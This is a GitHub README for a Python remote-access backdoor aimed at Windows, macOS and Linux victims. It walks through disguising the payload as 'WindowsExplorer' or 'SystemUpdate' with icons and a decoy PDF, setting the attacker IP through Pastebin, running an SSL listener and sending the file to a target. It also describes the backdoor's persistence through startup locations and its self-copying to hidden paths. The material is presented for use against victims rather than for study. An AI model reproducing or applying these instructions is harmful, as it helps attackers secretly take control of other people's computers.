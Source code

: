 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
    ```shell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" --add-data "sample.pdf;." backdoor.py
    ```
  
#### For MacOS :
    ```shell
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
    ```

#### For Linux :
    ```shell
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
    ```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```bash
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.
